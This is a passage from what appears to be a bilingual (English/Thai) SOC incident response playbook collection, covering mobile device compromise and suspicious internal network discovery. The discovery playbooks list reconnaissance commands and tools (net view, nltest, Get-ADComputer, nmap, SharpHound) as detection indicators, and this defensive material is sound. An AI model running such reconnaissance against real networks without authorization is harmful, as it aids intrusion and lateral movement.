| **Malicious App** | Sideloaded APK/IPA, unknown app with permissions | MTD, MDM app inventory |
| **SIM Swap** | Loss of cellular signal, MFA codes not received | User report, carrier |
| **Smishing/Phishing** | Suspicious SMS link clicked, credential entered | User report, MTD |
| **Network attack** | Rogue Wi-Fi, man-in-the-middle on public network | MTD, certificate errors |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| MDM compliance status | Intune / Jamf / WS1 | ☐ |
| App inventory — any sideloaded or unknown apps? | MDM | ☐ |
| Configuration profiles — any rogue profiles? | MDM | ☐ |
| Network connections — suspicious IPs? | MTD / Network logs | ☐ |
| Corporate email access from device | Exchange / M365 logs | ☐ |
| VPN connections from device | VPN logs | ☐ |
| Cloud storage access from device | CASB / Cloud audit | ☐ |
| Was OS up to date? | MDM | ☐ |

### 1.3 Data Exposure Assessment

| Data Type | Accessible from Device? | Exposed? |
|:---|:---|:---|
| Corporate email & attachments | ☐ Yes ☐ No | ☐ |
| Calendar & contacts | ☐ Yes ☐ No | ☐ |
| Cloud storage (OneDrive/GDrive) | ☐ Yes ☐ No | ☐ |
| VPN access to internal network | ☐ Yes ☐ No | ☐ |
| Authenticator/MFA tokens | ☐ Yes ☐ No | ☐ |
| Messaging (Teams/Slack) | ☐ Yes ☐ No | ☐ |
| Banking/Financial apps | ☐ Yes ☐ No | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Remote lock** the device | MDM | ☐ |
| 2 | **Selective wipe** corporate data (App Protection) | MDM (Intune) | ☐ |
| 3 | **Remove device** from Conditional Access / compliance | IdP | ☐ |
| 4 | **Block network access** (Wi-Fi, VPN) | Wi-Fi controller / VPN | ☐ |
| 5 | **Reset user password** | AD / IdP | ☐ |
| 6 | **Revoke OAuth tokens** from the device | IdP | ☐ |

### 2.2 SIM Swap Specific

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Contact carrier immediately to restore number and lock SIM | ☐ |
| 2 | Change MFA from SMS to authenticator app / FIDO2 | ☐ |
| 3 | Reset passwords for ALL accounts using SMS MFA | ☐ |
| 4 | Check for unauthorized access during SIM swap window | ☐ |
| 5 | File report with carrier and law enforcement | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Factory reset** the device (if spyware/rootkit confirmed) | ☐ |
| 2 | Remove rogue profiles and device admin apps | ☐ |
| 3 | Uninstall malicious applications | ☐ |
| 4 | Update OS to the latest version | ☐ |
| 5 | Re-enroll device in MDM with security policies | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Restore user data from known-clean backup (**not apps**) | ☐ |
| 2 | Re-register MFA from clean device | ☐ |
| 3 | Re-enroll corporate apps (email, VPN, cloud) | ☐ |
| 4 | Enforce MDM policies: app allowlisting, block sideloading, OS updates | ☐ |
| 5 | Enable MTD (Mobile Threat Defense) if not already deployed | ☐ |
| 6 | Monitor device for 30 days | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Malicious app name / package | | MDM / MTD |
| Rogue MDM profile | | MDM |
| Suspicious IP connections | | MTD / Network |
| Compromised accounts accessed | | SIEM / IdP |
| SIM swap timeline | | Carrier records |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Executive device compromised | CISO immediately |
| SIM swap targeting admin / VIP | CISO + Identity team |
| Corporate data exfiltrated from device | Legal + DPO (PDPA 72h) |
| Spyware with remote access capability | Tier 2 + External forensics |
| Multiple devices compromised (campaign) | Major Incident |
| Jailbroken device accessed sensitive systems | SOC Lead + IT |

---

## 7. Post-Incident

- [ ] Review MDM enrollment compliance across organization
- [ ] Update mobile security policy (jailbreak/root detection)
- [ ] Enforce OS version minimum requirements via MDM
- [ ] Review app sideloading / third-party app store policies
- [ ] Implement mobile threat defense (MTD) solution
- [ ] Conduct awareness training on mobile security best practices
- [ ] Review VPN requirements for mobile corporate access
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### Mobile Threat Classification

```mermaid
graph TD
    Threat["📱 Mobile Threat"] --> App["📦 Malicious App"]
    Threat --> Network["🌐 Network attack"]
    Threat --> OS["⚙️ OS exploit"]
    Threat --> Phish["🎣 Mobile phishing"]
    App --> MDM["🛡️ MDM block"]
    Network --> VPN["🔒 VPN enforce"]
    OS --> Update["🔄 Force update"]
    Phish --> Training["📚 Training"]
    style Threat fill:#e74c3c,color:#fff
```

### BYOD Security Architecture

```mermaid
graph LR
    Personal["📱 BYOD"] --> Enroll["📲 MDM enroll"]
    Enroll --> Container["🔒 Work container"]
    Container --> Access["📁 Corporate data"]
    Container --> Policy["📋 DLP policy"]
    Access --> Encrypt["🔐 Encrypted"]
    Policy --> Wipe["🗑️ Selective wipe"]
    style Container fill:#27ae60,color:#fff
    style Wipe fill:#e74c3c,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Mobile Device Compromise Indicators | [cloud_mobile_compromise.yml](../../08_Detection_Engineering/sigma_rules/cloud_mobile_compromise.yml) |
| Device Offline for Extended Period | [mdm_device_offline.yml](../../08_Detection_Engineering/sigma_rules/mdm_device_offline.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-19 Lost/Stolen Device](Lost_Device.en.md)

## References

- [MITRE ATT&CK Mobile — T1456](https://attack.mitre.org/techniques/T1456/)
- [NIST SP 800-124r2 — Guidelines for Managing Mobile Devices](https://csrc.nist.gov/publications/detail/sp/800-124/rev-2/final)


---

## File: 05_Incident_Response/Playbooks/Mobile_Compromise.th.md

# Playbook: อุปกรณ์มือถือถูกบุกรุก

**ID**: PB-28
**ระดับความรุนแรง**: สูง | **หมวดหมู่**: ความปลอดภัยอุปกรณ์ปลายทาง
**MITRE ATT&CK**: [T1456](https://attack.mitre.org/techniques/T1456/) (Drive-By Compromise — Mobile), [T1474](https://attack.mitre.org/techniques/T1474/) (Supply Chain Compromise — Mobile)
**ทริกเกอร์**: MTD alert (malicious app), MDM compliance violation, ผู้ใช้รายงาน SIM swap, phishing on mobile


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวน MDM enrollment compliance
- [ ] อัพเดท mobile security policy (jailbreak/root detection)
- [ ] บังคับ OS version minimum ผ่าน MDM
- [ ] ทบทวน app sideloading policies
- [ ] ใช้ Mobile Threat Defense (MTD) solution
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังตรวจจับภัยคุกคามมือถือ

```mermaid
graph TD
    MTD["🔍 MTD"] --> Type{"📱 ประเภท?"}
    Type -->|Malicious App| App["🦠 ลบ App"]
    Type -->|Jailbreak/Root| JB["⚠️ Block Access"]
    Type -->|Network Attack| Net["🌐 VPN Force"]
    Type -->|SIM Swap| SIM["📞 ติดต่อ Carrier"]
    App --> MDM["📲 MDM Action"]
    JB --> MDM
    Net --> MDM
```

### ผังขั้นตอนควบคุม BYOD

```mermaid
sequenceDiagram
    participant User as ผู้ใช้
    participant MDM
    participant SOC
    participant IT
    MDM->>SOC: 🚨 Compliance violation
    SOC->>MDM: Block corporate access
    SOC->>User: แจ้ง + คำแนะนำ
    User->>IT: นำอุปกรณ์มาตรวจ
    IT->>MDM: Remediate / Re-enroll
    MDM-->>SOC: ✅ Compliant
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 มือถือผิดปกติ"] --> Type{"📱 ประเภทการบุกรุก?"}
    Type -->|Spyware| Spy["🕵️ โปรไฟล์/แอปอันตราย"]
    Type -->|Jailbreak/Root| JB["🔓 ความสมบูรณ์ของอุปกรณ์ถูกทำลาย"]
    Type -->|แอปอันตราย| App["📦 แอปที่ไม่น่าเชื่อถือ"]
    Type -->|SIM Swap| SIM["📞 หมายเลขถูกขโมย"]
    Type -->|Smishing| Smish["📩 คลิกลิงก์ SMS"]
    Spy --> Scope["📊 ประเมินข้อมูลที่เปิดเผย"]
    JB --> Scope
    App --> Scope
    SIM --> Urgent["🔴 ด่วน — MFA/Auth เสี่ยง"]
    Scope --> Corp{"💼 เข้าถึงข้อมูลองค์กร?"}
    Corp -->|ใช่| Contain["🔒 ควบคุมเต็มรูปแบบ"]
    Corp -->|ไม่| Monitor["👁️ ติดตาม + ให้ความรู้"]
    Urgent --> Contain
```

---

## 1. การวิเคราะห์

### 1.1 ประเภทการบุกรุก

| ประเภท | ตัวบ่งชี้ | การตรวจจับ |
|:---|:---|:---|
| **Spyware/Stalkerware** | MDM profiles แปลก, แบตเตอรี่หมดเร็ว | MDM, MTD |
| **Jailbreak/Root** | Cydia, Magisk, SuperSU | MDM jailbreak detection |
| **แอปอันตราย** | APK/IPA ที่ sideload | MTD, MDM app inventory |
| **SIM Swap** | สูญเสียสัญญาณ, ไม่ได้รับ OTP | รายงานผู้ใช้, ผู้ให้บริการ |
| **Smishing** | คลิกลิงก์ SMS ที่น่าสงสัย | รายงานผู้ใช้, MTD |
| **การโจมตีเครือข่าย** | Wi-Fi ปลอม, MITM | MTD |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| สถานะ MDM compliance | Intune / Jamf / WS1 | ☐ |
| App inventory — มีแอปที่ sideload? | MDM | ☐ |
| Configuration profiles — มีโปรไฟล์แปลก? | MDM | ☐ |
| การเชื่อมต่อเครือข่าย — IP ที่น่าสงสัย? | MTD | ☐ |
| เข้าถึงอีเมลองค์กรจากอุปกรณ์? | Exchange / M365 | ☐ |
| VPN connections จากอุปกรณ์? | VPN logs | ☐ |
| OS อัปเดตล่าสุดหรือไม่? | MDM | ☐ |

### 1.3 การประเมินข้อมูลที่เปิดเผย

| ประเภทข้อมูล | เข้าถึงได้จากอุปกรณ์? | รั่วไหล? |
|:---|:---|:---|
| อีเมลองค์กรและไฟล์แนบ | ☐ ใช่ ☐ ไม่ | ☐ |
| ปฏิทินและผู้ติดต่อ | ☐ ใช่ ☐ ไม่ | ☐ |
| Cloud storage (OneDrive/GDrive) | ☐ ใช่ ☐ ไม่ | ☐ |
| VPN access ไปเครือข่ายภายใน | ☐ ใช่ ☐ ไม่ | ☐ |
| Authenticator/MFA tokens | ☐ ใช่ ☐ ไม่ | ☐ |

---

## 2. การควบคุม

### 2.1 การดำเนินการทันที

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **ล็อกอุปกรณ์** ระยะไกล | MDM | ☐ |
| 2 | **ลบข้อมูลองค์กร** (Selective Wipe) | MDM (Intune) | ☐ |
| 3 | **ถอดอุปกรณ์** จาก Conditional Access | IdP | ☐ |
| 4 | **บล็อกเครือข่าย** (Wi-Fi, VPN) | Wi-Fi / VPN | ☐ |
| 5 | **รีเซ็ตรหัสผ่าน** ผู้ใช้ | AD / IdP | ☐ |
| 6 | **เพิกถอน OAuth tokens** | IdP | ☐ |

### 2.2 กรณี SIM Swap

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ติดต่อผู้ให้บริการทันทีเพื่อกู้หมายเลข | ☐ |
| 2 | เปลี่ยน MFA จาก SMS เป็น authenticator app / FIDO2 | ☐ |
| 3 | รีเซ็ตรหัสผ่าน **ทุกบัญชี** ที่ใช้ SMS MFA | ☐ |
| 4 | ตรวจสอบการเข้าถึงที่ไม่ได้รับอนุญาตระหว่าง SIM swap | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Factory reset** อุปกรณ์ (หากยืนยัน spyware/rootkit) | ☐ |
| 2 | ลบโปรไฟล์และแอปอันตราย | ☐ |
| 3 | อัปเดต OS ล่าสุด | ☐ |
| 4 | ลงทะเบียนอุปกรณ์ใหม่ใน MDM | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | กู้คืนข้อมูลจาก backup ที่สะอาด (**ไม่รวมแอป**) | ☐ |
| 2 | ลงทะเบียน MFA ใหม่จากอุปกรณ์ที่สะอาด | ☐ |
| 3 | บังคับนโยบาย MDM: app allowlist, บล็อก sideloading | ☐ |
| 4 | เปิดใช้ MTD หากยังไม่ได้ deploy | ☐ |
| 5 | ติดตามอุปกรณ์ 30 วัน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| อุปกรณ์ผู้บริหารถูกบุกรุก | CISO ทันที |
| SIM swap กับ admin/VIP | CISO + ทีม Identity |
| ข้อมูลองค์กรถูกนำออกจากอุปกรณ์ | Legal + DPO (PDPA 72 ชม.) |
| อุปกรณ์หลายเครื่องถูกบุกรุก (แคมเปญ) | Major Incident |

---

### ผัง Mobile Threat Classification

```mermaid
graph TD
    Threat["📱 Mobile Threat"] --> App["📦 Malicious App"]
    Threat --> Network["🌐 Network attack"]
    Threat --> OS["⚙️ OS exploit"]
    Threat --> Phish["🎣 Mobile phishing"]
    App --> MDM["🛡️ MDM block"]
    Network --> VPN["🔒 VPN enforce"]
    OS --> Update["🔄 Force update"]
    Phish --> Training["📚 Training"]
    style Threat fill:#e74c3c,color:#fff
```

### ผัง BYOD Security Architecture

```mermaid
graph LR
    Personal["📱 BYOD"] --> Enroll["📲 MDM enroll"]
    Enroll --> Container["🔒 Work container"]
    Container --> Access["📁 Corporate data"]
    Container --> Policy["📋 DLP policy"]
    Access --> Encrypt["🔐 Encrypted"]
    Policy --> Wipe["🗑️ Selective wipe"]
    style Container fill:#27ae60,color:#fff
    style Wipe fill:#e74c3c,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Mobile Device Compromise Indicators | [cloud_mobile_compromise.yml](../../08_Detection_Engineering/sigma_rules/cloud_mobile_compromise.yml) |
| Device Offline for Extended Period | [mdm_device_offline.yml](../../08_Detection_Engineering/sigma_rules/mdm_device_offline.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-05 บัญชีถูกบุกรุก](Account_Compromise.th.md)
- [PB-19 อุปกรณ์สูญหาย](Lost_Device.th.md)

## Mobile Threat Assessment

| Threat | iOS Risk | Android Risk | Detection |
|:---|:---|:---|:---|
| Jailbreak/Root | Medium | High | MDM check |
| Malicious app | Low | High | App scanning |
| Network MitM | Medium | Medium | Certificate pinning |
| SMS phishing | Medium | Medium | User report |
| Device theft | Medium | Medium | MDM geofencing |

### MDM Response Actions

| Action | iOS | Android | Impact |
|:---|:---|:---|:---|
| Remote lock | ✅ | ✅ | Low |
| Remote wipe | ✅ | ✅ | High |
| App removal | ✅ | ✅ | Medium |
| VPN force | ✅ | ✅ | Low |

### App Analysis Steps

| Check | Tool | Action |
|:---|:---|:---|
| App permissions | MDM report | Review |
| Network behavior | Proxy logs | Analyze |
| File system changes | Forensic tool | Investigate |

## อ้างอิง

- [MITRE ATT&CK Mobile — T1456](https://attack.mitre.org/techniques/T1456/)
- [NIST SP 800-124r2 — Guidelines for Managing Mobile Devices](https://csrc.nist.gov/publications/detail/sp/800-124/rev-2/final)


---

## File: 05_Incident_Response/Playbooks/Network_Discovery.en.md

# Playbook PB-34: Suspicious Network Discovery

**Severity**: Medium–High | **Category**: Discovery | **MITRE**: T1046, T1135, T1018, T1016, T1049, T1082

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Scan Detected"] --> Auth{"🔑 Authorized?"}
    Auth -->|Pentest/IT admin| Close["✅ Close Alert"]
    Auth -->|Unknown| Investigate["🔍 Investigate Source"]
    Investigate --> Compromised{"🦠 Compromised Host?"}
    Compromised -->|Yes| Isolate["🔌 Isolate + Full IR"]
    Compromised -->|No| Block["🚫 Block + Monitor"]
```

### Scan Detection Flow

```mermaid
graph LR
    Scanner["📡 Scan"] --> IDS["🛡️ IDS/IPS"]
    IDS --> Alert["🚨 SOC Alert"]
    Scanner --> Honeypot["🍯 Honeypot"]
    Honeypot --> Alert
    Alert --> Investigate["🔎 Investigate Source"]
    style Scanner fill:#e74c3c,color:#fff
    style Honeypot fill:#f39c12,color:#fff
    style Alert fill:#c0392b,color:#fff
```

### Honeypot Trigger Flow

```mermaid
sequenceDiagram
    participant Attacker
    participant Honeypot as 🍯 Honeypot
    participant SOC
    participant EDR
    Attacker->>Honeypot: Port scan / connect
    Honeypot->>SOC: 🚨 Alert + source IP
    SOC->>EDR: Investigate source host
    EDR-->>SOC: Found malware!
    SOC->>EDR: Isolate host
```

## Description

An attacker conducts internal reconnaissance to map the network topology, identify live hosts, discover file shares, and enumerate services. This information enables lateral movement, privilege escalation, and data exfiltration. Discovery often follows initial access and precedes lateral movement.

## Detection Sources

| Source | Alert Examples |
|:---|:---|
| **EDR** | Port scanning tools (nmap, Advanced IP Scanner), network enumeration commands |
| **SIEM** | High volume of failed connections, ICMP sweeps, SMB share enumeration |
| **Network** | Unusual ARP requests, rapid sequential connections to multiple hosts |
| **Domain Controller** | LDAP queries for all computers/users, BloodHound activity |

## Triage Checklist

| # | Step | Action |
|:---:|:---|:---|
| 1 | **Identify the source** | Who is running discovery commands? Normal admin or compromised account? |
| 2 | **Check context** | Is this part of scheduled IT operations (patching, inventory)? |
| 3 | **Review commands** | Look for: `net view`, `net share`, `nltest`, `arp -a`, `nmap`, `ping sweep`, PowerShell AD cmdlets |
| 4 | **Check device** | Is the source a workstation or server? Domain-joined? Expected user? |
| 5 | **Timeline** | When did activity start? Does it correlate with initial access alerts? |
| 6 | **Volume** | How many hosts/ports targeted? Rapid scanning = likely automated |

## Response Actions

### Tier 1

1. Document the source host, user, and commands observed
2. Check if user has legitimate reason for network scanning (IT admin, authorized pentest)
3. If unauthorized → Escalate to Tier 2

### Tier 2

4. Investigate the source host for signs of compromise (malware, unauthorized access)
5. Check for preceding initial access indicators (phishing click, exploit)
6. Search for follow-up activity: lateral movement, credential dumping
7. If confirmed malicious:
   - **Isolate** the source host via EDR
   - **Disable** the compromised account
   - **Block** scanning tools via endpoint policy

### Tier 3

8. Conduct full forensic investigation of the source host
9. Map the full attack chain: initial access → discovery → next stages
10. Review network segmentation — could the attacker reach critical assets?
11. Update detection rules for discovery techniques observed

## Containment

| Action | Method | Approval |
|:---|:---|:---|
| Isolate source host | EDR network isolation | SOC Lead |
| Disable user account | Active Directory / IAM | SOC Lead |
| Block scanning tools | Application control / EDR policy | Change request |
| Restrict network access | Firewall / microsegmentation | Network team + SOC Lead |
| Enable enhanced logging | SIEM + EDR verbose mode | SOC Lead |

## Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Remove scanning tools and scripts from endpoint | ☐ |
| 2 | Kill active scanning processes | ☐ |
| 3 | Remove persistence mechanisms (scheduled tasks, services) | ☐ |
| 4 | Reset compromised credentials (if applicable) | ☐ |
| 5 | Patch exploited vulnerability used for initial access | ☐ |
| 6 | Clear attacker's cached AD/LDAP query results | ☐ |

## IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Source IP / hostname | | EDR / SIEM |
| User account | | AD logs |
| Scanning tool name | | Process logs |
| Scan targets (IP ranges) | | Network logs |
| Commands executed | | EDR command history |
| Scan output files | | Forensic image |
| Associated malware hash | | EDR / sandbox |
| C2 domain (if post-exploitation) | | DNS / proxy logs |

## Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Scanning from compromised host (malware confirmed) | Tier 2 + IR Lead |
| Discovery activity followed by lateral movement | Tier 3 + CISO |
| Domain controller or critical server targeted | SOC Manager + System Owners |
| BloodHound / SharpHound collection detected | Tier 3 + AD Security |
| Scanning originates from external IP | Tier 2 + Network Team |
| > 100 hosts or > 1,000 ports scanned | SOC Lead |

## Recovery

- [ ] Rebuild source host if compromised (re-image with clean baseline)
- [ ] Re-enable user account after credential reset and MFA re-enrollment
- [ ] Verify network segmentation blocks unauthorized scanning
- [ ] Confirm no lateral movement succeeded from the discovery phase
- [ ] Restore any services disrupted during containment
- [ ] Validate enhanced monitoring rules are in place

## Post-Incident

- [ ] Update IDS/IPS signatures for observed discovery techniques
- [ ] Deploy honeypots in high-value network segments
- [ ] Review and tighten application control policies (scanning tools)
- [ ] Create Sigma detection rule for new discovery patterns observed
- [ ] Conduct tabletop exercise for discovery → lateral movement scenarios
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

## Key Indicators

| Indicator | Example |
|:---|:---|
| **Processes** | nmap, masscan, Advanced IP Scanner, arp-scan, nbtscan |
| **Commands** | `net view /domain`, `nltest /dclist:`, `Get-ADComputer`, `arp -a`, `nslookup` |
| **Network** | ICMP sweep, TCP SYN to sequential IPs, excessive SMB (445) connections |
| **AD Queries** | LDAP `objectCategory=computer`, BloodHound's `SharpHound` collector |

### Network Visibility Stack

```mermaid
graph LR
    IDS["🛡️ IDS/IPS"] --> SIEM["📊 SIEM"]
    NDR["📡 NDR"] --> SIEM
    Honeypot["🍯 Honeypot"] --> SIEM
    FW["🔥 Firewall"] --> SIEM
    SIEM --> SOC["🎯 SOC Alert"]
    style IDS fill:#3498db,color:#fff
    style NDR fill:#27ae60,color:#fff
    style Honeypot fill:#f39c12,color:#fff
    style SOC fill:#e74c3c,color:#fff
```

### Scan Tool Classification

```mermaid
graph TD
    Tools["🔍 Scan Tools"] --> External["🌐 External"]
    Tools --> Internal["🏠 Internal"]
    External --> Nmap["nmap"]
    External --> Masscan["masscan"]
    Internal --> NBTScan["nbtscan"]
    Internal --> BloodHound["SharpHound"]
    Internal --> PowerView["PowerView"]
    style External fill:#e74c3c,color:#fff
    style Internal fill:#f39c12,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Network Discovery Activity | [sigma/win_network_discovery.yml](../../08_Detection_Engineering/sigma_rules/win_network_discovery.yml) |
| Access to Admin Shares (C$) | [win_admin_share_access.yml](../../08_Detection_Engineering/sigma_rules/win_admin_share_access.yml) |

## Related Documents

- [Lateral Movement Playbook](Lateral_Movement.en.md)
- [Privilege Escalation Playbook](Privilege_Escalation.en.md)
- [IR Framework](../Framework.en.md)

## References

- [MITRE ATT&CK — Discovery](https://attack.mitre.org/tactics/TA0007/)
- [MITRE T1046 — Network Service Discovery](https://attack.mitre.org/techniques/T1046/)
- [MITRE T1135 — Network Share Discovery](https://attack.mitre.org/techniques/T1135/)
- [MITRE T1018 — Remote System Discovery](https://attack.mitre.org/techniques/T1018/)


---

## File: 05_Incident_Response/Playbooks/Network_Discovery.th.md

# Playbook: Network Discovery / การสแกนเครือข่าย

**ID**: PB-19
**ระดับความรุนแรง**: ปานกลาง/สูง | **หมวดหมู่**: การลาดตระเวน
**MITRE ATT&CK**: [T1046](https://attack.mitre.org/techniques/T1046/) (Network Service Discovery), [T1018](https://attack.mitre.org/techniques/T1018/) (Remote System Discovery)
**ทริกเกอร์**: IDS alert (port scan), SIEM (Nmap/Masscan signature), Honeypot trigger, firewall deny spike


## หลังเหตุการณ์ (Post-Incident)

- [ ] อัพเดท IDS/IPS signatures สำหรับ discovery techniques
- [ ] ติดตั้ง honeypots ใน high-value network segments
- [ ] ทบทวน application control policies (scanning tools)
- [ ] สร้าง Sigma rule สำหรับ discovery patterns ใหม่
- [ ] ทำ tabletop exercise: discovery → lateral movement
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังขั้นตอนตรวจจับ

```mermaid
graph LR
    Scanner["📡 Scan"] --> IDS["🛡️ IDS/IPS"]
    IDS --> Alert["🚨 SOC Alert"]
    Scanner --> Honeypot["🍯 Honeypot"]
    Honeypot --> Alert
    Alert --> Investigate["🔎 Investigate Source"]
    style Scanner fill:#e74c3c,color:#fff
    style Honeypot fill:#f39c12,color:#fff
    style Alert fill:#c0392b,color:#fff
```

### ผัง Honeypot Trigger

```mermaid
sequenceDiagram
    participant Attacker
    participant Honeypot as 🍯 Honeypot
    participant SOC
    participant EDR
    Attacker->>Honeypot: Port scan / connect
    Honeypot->>SOC: 🚨 Alert + source IP
    SOC->>EDR: ตรวจ source host
    EDR-->>SOC: พบ malware!
    SOC->>EDR: Isolate host
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Network Scan Detected"] --> Source{"📍 แหล่งที่มา?"}
    Source -->|External IP| Ext["🌐 Internet Scan"]
    Source -->|Internal IP| Int["🏢 Internal Scan"]
    Ext --> Block["🔒 Block IP + Monitor"]
    Int --> Auth{"✅ ได้รับอนุมัติ?"}
    Auth -->|ใช่ (Pen Test, VM)| FP["✅ False Positive"]
    Auth -->|ไม่| Investigate["🔎 ตรวจ Host ต้นทาง"]
    Investigate --> Compromise{"🦠 Host ถูกบุกรุก?"}
    Compromise -->|ใช่| IR["🔴 Full IR"]
    Compromise -->|ไม่ (Shadow IT/Tool)| Policy["🟠 Policy Violation"]
```

---

## 1. การวิเคราะห์

### 1.1 ประเภทการสแกน

| ประเภท | ลักษณะ | เครื่องมือที่ใช้ | ความรุนแรง |
|:---|:---|:---|:---|
| **Port Scan** (TCP SYN/Connect) | สแกน port ทั่วไป | Nmap, Masscan | 🟡 ปานกลาง |
| **Service Enumeration** | Banner grab, version detection | Nmap -sV | 🟠 สูง |
| **Vulnerability Scan** | Exploit attempt after discovery | Nessus, OpenVAS | 🟠 สูง |
| **ARP Scan / Host Discovery** | สแกนเครือข่าย local | arp-scan, ping sweep | 🟡 ปานกลาง |
| **AD Enumeration** | BloodHound, SharpHound, ldapsearch | BloodHound | 🔴 สูง |
| **SMB/RPC Enumeration** | Share/user enumeration | enum4linux, CrackMapExec | 🔴 สูง |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Source IP / hostname | IDS / SIEM | ☐ |
| Scan type (port/service/vuln/AD) | IDS signature | ☐ |
| Scan scope (กี่ hosts/ports?) | Firewall / flow data | ☐ |
| Source = internal หรือ external? | Network analysis | ☐ |
| มี Change Request / Pen Test scheduled? | ITSM / SOC calendar | ☐ |
| Process ที่ทำ scan (ถ้า internal) | EDR on source host | ☐ |
| มี follow-up exploit attempts? | IDS / SIEM | ☐ |
| Honeypot ถูก trigger? | Honeypot logs | ☐ |

---

## 2. การควบคุม

### 2.1 External Scan

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Block** source IP ที่ firewall | ☐ |
| 2 | **ตรวจ** ว่ามี exploit attempts ตามมา | ☐ |
| 3 | **เพิ่ม** IPS rules ถ้าพบ pattern | ☐ |

### 2.2 Internal Scan (ไม่ได้รับอนุมัติ)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Isolate** source host | ☐ |
| 2 | **ตรวจ** host สำหรับ malware/compromise | ☐ |
| 3 | **ตรวจ** user account (authorized or compromised?) | ☐ |
| 4 | หาก **BloodHound/SharpHound** → ยกระดับทันที | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ scanning tools จาก host | ☐ |
| 2 | ลบ malware ที่ใช้ scan (ถ้าเป็น automated) | ☐ |
| 3 | หมุนเวียน credentials (ถ้าถูกบุกรุก) | ☐ |
| 4 | ลบ BloodHound data (cached AD structure) | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | Deploy **honeypots** สำหรับ early detection | ☐ |
| 2 | เปิด **network segmentation** (microsegmentation) | ☐ |
| 3 | ปิด **unnecessary ports/services** | ☐ |
| 4 | เปิด **IDS/IPS** ใน internal segments | ☐ |
| 5 | ตรวจสอบ **firewall rules** ทุกไตรมาส | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| AD enumeration (BloodHound) | CISO + Major Incident |
| Internal scan + host compromised | Full IR process |
| Follow-up exploitation | [PB-18 Exploit](Exploit.th.md) |
| Large-scale external scan (>1000 ports) | SOC Lead |

---

### ผัง Network Visibility Stack

```mermaid
graph LR
    IDS["🛡️ IDS/IPS"] --> SIEM["📊 SIEM"]
    NDR["📡 NDR"] --> SIEM
    Honeypot["🍯 Honeypot"] --> SIEM
    FW["🔥 Firewall"] --> SIEM
    SIEM --> SOC["🎯 SOC Alert"]
    style IDS fill:#3498db,color:#fff
    style NDR fill:#27ae60,color:#fff
    style Honeypot fill:#f39c12,color:#fff
    style SOC fill:#e74c3c,color:#fff
```

### ผัง Scan Tool Classification

```mermaid
graph TD
    Tools["🔍 Scan Tools"] --> External["🌐 External"]
    Tools --> Internal["🏠 Internal"]
    External --> Nmap["nmap"]
    External --> Masscan["masscan"]
    Internal --> NBTScan["nbtscan"]
    Internal --> BloodHound["SharpHound"]
    Internal --> PowerView["PowerView"]
    style External fill:#e74c3c,color:#fff
    style Internal fill:#f39c12,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Network Discovery Activity | [sigma/win_network_discovery.yml](../../08_Detection_Engineering/sigma_rules/win_network_discovery.yml) |
| Access to Admin Shares (C$) | [win_admin_share_access.yml](../../08_Detection_Engineering/sigma_rules/win_admin_share_access.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-18 Exploit](Exploit.th.md)
- [PB-09 Lateral Movement](Lateral_Movement.th.md)

## Network Discovery TTPs

| Technique | Tool | Detection |
|:---|:---|:---|
| Port scanning | nmap, masscan | IDS + flow analysis |
| ARP scanning | arp-scan | ARP anomaly |
| Service enumeration | nmap -sV | Unusual connections |
| SNMP sweep | snmpwalk | SNMP traps |
